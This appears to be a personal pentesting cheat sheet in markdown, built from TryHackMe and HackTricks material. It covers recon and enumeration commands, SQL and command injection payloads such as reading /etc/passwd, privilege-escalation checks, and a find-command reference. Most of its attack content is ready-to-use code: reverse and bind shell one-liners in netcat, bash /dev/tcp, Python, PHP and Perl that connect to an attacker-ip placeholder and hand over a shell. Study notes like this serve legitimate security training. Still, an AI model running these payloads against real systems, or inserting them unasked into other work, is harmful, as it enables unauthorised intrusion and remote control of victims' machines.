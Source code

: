 # 🛡️ Cybersecurity & Pentesting Knowledge Base

This document serves as a **detailed encyclopedia** of cybersecurity techniques, exploits, and pentesting methodologies. Use it to **revise, review, and apply** hacking concepts learned from **TryHackMe**, **HackTricks**, and other sources.

---

## 📁 1. Reconnaissance

### 🔹 Active vs Passive Recon
- **Active:** Direct interaction (e.g., `nmap`, `dirb`)
- **Passive:** Indirect observation (e.g., WHOIS, Google Dorking)

### 🔹 Tools
| Tool           | Purpose              |
|----------------|----------------------|
| `nmap`         | Network scanning     |
| `whois`        | Domain info lookup   |
| `dig`          | DNS enumeration      |
| `theHarvester` | OSINT gathering      |
| `subfinder`    | Subdomain discovery  |

### 🔹 Commands
```sh
nmap -sC -sV -oN scan_results.txt [target-ip]
subfinder -d target.com
```

---

## 📂 2. Enumeration

### 🔹 SMB Enumeration
```sh
smbclient -L //[IP]
enum4linux -a [IP]
```

### 🔹 Web Directory Enumeration
```sh
gobuster dir -u http://[target] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -o gobusterResults.txt
```

---

## 💥 3. Exploitation

### 🔹 SQL Injection
```sh
# Manual
' OR 1=1 --

# Automated
sqlmap -u "http://target.com/index.php?id=1" --dbs
```

### 🔹 Command Injection
```sh
# URL-based
http://target.com/page?cmd=whoami

# Payloads
&& whoami
; cat /etc/passwd
| ls -la
```

---

## ⚡ 4. Privilege Escalation

### 🔹 Linux PrivEsc
```sh
find / -perm -4000 -type f 2>/dev/null      # SUID binaries
find /etc/ -writable                        # Writable config files
```

### 🔹 Windows PrivEsc
```sh
whoami /priv
.\winPEAS.exe
```

---

## 🧰 5. Tools Overview

| Category      | Tools                                     |
|---------------|-------------------------------------------|
| Recon         | `nmap`, `theHarvester`, `subfinder`, `dig` |
| Enumeration   | `enum4linux`, `gobuster`                  |
| Exploitation  | `sqlmap`, `hydra`, `metasploit`           |
| PrivEsc       | `linPEAS`, `winPEAS`, `GTFOBins`          |

---

## 🐚 6. Netcat & Reverse Shells

### 🔹 Basics
```sh
# Listener
nc -lvnp 4444

# Connect to listener
nc [ip] 4444
```

### 🔹 Reverse Shell (Attacker Listens)
```sh
# Attacker
nc -lvnp 4444

# Victim
nc [attacker_ip] 4444 -e /bin/bash
```

### 🔹 Bind Shell (Victim Listens)
```sh
# Victim
nc -lvnp 4444 -e /bin/bash

# Attacker
nc [victim_ip] 4444
```

### 🔹 Without -e flag (mkfifo method)
```sh
mkfifo /tmp/s; /bin/bash < /tmp/s | nc [attacker_ip] 4444 > /tmp/s
```

### 🔹 One-Liner Shells
```sh
# Bash
bash -i >& /dev/tcp/[ip]/4444 0>&1

# Python
python3 -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("[ip]",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/bash"])'

# PHP
php -r '$sock=fsockopen("ip",4444);exec("/bin/bash -i <&3 >&3 2>&3");'

# Perl
perl -e 'use Socket;$i="ip";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

### 🔹 Shell Upgrade
```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 🔎 7. `find` Command Usage

### 🔹 Basic Syntax
```sh
find [path] [options] [expression]
```

### 🔹 Examples

#### By Name
```sh
find . -name "file.txt"
find . -iname "file.txt"
```

#### By Type
```sh
find . -type f
find . -type d
find . -type l
```

#### By Size
```sh
find . -size +100M
find . -size -10k
find . -empty
```

#### By Permissions
```sh
find / -perm -4000 -type f 2>/dev/null     # SUID
find . -perm 644
find . -perm /u+x
```

#### By Owner/Group
```sh
find . -user root
find . -group sudo
```

#### Exclude Files
```sh
find . ! -name "*.log"
```

#### Search Entire Filesystem
```sh
sudo find / -name "passwd" 2>/dev/null
```

---

## 📚 8. Learning Resources

- 🔗 [TryHackMe](https://tryhackme.com/)
- 🔗 [HackTricks](https://book.hacktricks.xyz/)
- 🔗 [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- 🔗 [GTFOBins](https://gtfobins.github.io/)

---

## 🧠 9. TODOs & Future Topics

- [ ] Reverse Shells: Deep dive and persistence
- [ ] Web Exploits: XSS, CSRF, SSRF, etc.
- [ ] Post-Exploitation: Maintaining access, exfiltration
- [ ] Blue Teaming: Defense, detection, hardening
